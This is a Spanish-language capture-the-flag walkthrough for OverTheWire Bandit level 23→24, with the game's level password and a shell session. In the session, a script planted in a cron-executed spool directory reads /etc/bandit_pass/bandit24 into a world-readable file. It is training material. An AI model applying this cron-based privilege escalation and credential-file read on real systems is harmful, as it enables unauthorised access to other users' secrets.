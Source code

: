 ## Bandit Level 23 → Level 24
## Objetivo
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## Datos de acceso al nivel
```
bandit23 - QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G
```
## Solución
```cmd
bandit23@bandit:~$ ls /etc/cron.d
cronjob_bandit15_root cronjob_bandit22 cronjob_bandit24 e2scrub_all sysstat
cronjob_bandit17_root cronjob_bandit23 cronjob_bandit25_root otw-tmp-dir
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash
myname=$(whoami)
cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
if [ "$i" != "." -a "$i" != ".." ];
then
echo "Handling $i"
owner="$(stat --format "%U" ./$i)"
if [ "${owner}" = "bandit23" ]; then
timeout -s 9 60 ./$i
fi
rm -f ./$i
fi
done
bandit23@bandit:~$
bandit23@bandit:~$ mkdir /tmp/kd
bandit23@bandit:~$ cd /tmp/kd
bandit23@bandit:/tmp/kd$ echo "cat /etc/bandit_pass/bandit24 >
/tmp/kd/password" > script.sh
bandit23@bandit:/tmp/kd$ cat script.sh
cat /etc/bandit_pass/bandit24 > /tmp/kd/password
bandit23@bandit:/tmp/kd$ chmod +x script.sh
bandit23@bandit:/tmp/kd$ touch password
bandit23@bandit:/tmp/kd$ chmod 666 password
bandit23@bandit:/tmp/kd$ ls –la
total 92
drwxrwxr-x 2 bandit23 bandit23 4096 Sep 4 01:51 .
drwxrwx-wt 1957 root root 81920 Sep 4 01:51 ..
-rw-rw-rw- 1 bandit23 bandit23 0 Sep 4 01:51 password
-rwxrwxr-x 1 bandit23 bandit23 49 Sep 4 01:50 script.sh

bandit23@bandit:/tmp/kd$ cp script.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/kd$ ls -la
total 92
drwxrwxr-x 2 bandit23 bandit23 4096 Sep 4 01:51 .
drwxrwx-wt 1957 root root 81920 Sep 4 01:53 ..
-rw-rw-rw- 1 bandit23 bandit23 0 Sep 4 01:51 password
-rwxrwxr-x 1 bandit23 bandit23 49 Sep 4 01:50 script.sh
bandit23@bandit:/tmp/kd$ date
Sun Sep 4 01:54:12 AM UTC 2022
bandit23@bandit:/tmp/kd$ ls -la
total 96
drwxrwxr-x 2 bandit23 bandit23 4096 Sep 4 01:51 .
drwxrwx-wt 1957 root root 81920 Sep 4 01:53 ..
-rw-rw-rw- 1 bandit23 bandit23 33 Sep 4 01:54 password
-rwxrwxr-x 1 bandit23 bandit23 49 Sep 4 01:50 script.sh
bandit23@bandit:/tmp/kd$ cat password
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
bandit23@bandit:/tmp/kd$
```
## Notas adicionales
- En el script ejecuta un script y luego elimina todos los script
- #!/bin/bash indica que es un script de bash
- stat sirve para saber el estatus
- echo es para mandar un mensaje a la pantalla
- timeout sirve para ejecutar un comando con limite de tiempo
- mktemp -d sirve para crear una carpeta aleatoria en la carpeta tmp
- nano es un editor de texto
- Cuando se pone en verdees que ya tiene permisos de administrador
- touch 
- chmod 666 password es para cambiarle los permisos y todos lo puedan ver
- ls -la es para ver los archivos y sus permisos.
- mv es para renombrar un archivo.
- 
## Referencias
